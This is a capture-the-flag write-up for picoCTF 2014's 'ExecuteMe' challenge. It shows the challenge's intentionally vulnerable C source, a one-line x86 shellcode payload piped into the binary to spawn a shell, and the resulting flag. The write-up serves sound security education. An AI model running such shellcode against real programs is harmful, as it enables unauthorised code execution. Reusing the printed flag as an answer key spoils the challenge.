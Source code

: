 ```yaml
---
layout: post
title: "picoCTF 2014 ExecuteMe"
date: 2014-11-07 19:53:28 -0500
author: [superkojiman]
comments: true
categories: [picoctf]
---
```


### Solved by superkojiman

ExecteMe is an 80 point binary exploitation challenge. 

> This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found here.

The description actually gives away the solution. Here's the source code:

```c
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```

It takes whatever input we provide and executes it. Eg:

```text
pico1139@shell:/home/execute$ ./execute 
hello
Segmentation fault (core dumped)
```

So to solve it, we just pass it some shellcode that will give us a shell:

```
pico1139@shell:/home/execute$ (printf "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" ; cat) | ./execute 
id
uid=11066(pico1139) gid=1006(execute) groups=1017(picogroup)
cat flag.txt
shellcode_is_kinda_cool
```

The flag is **shellcode_is_kinda_cool**
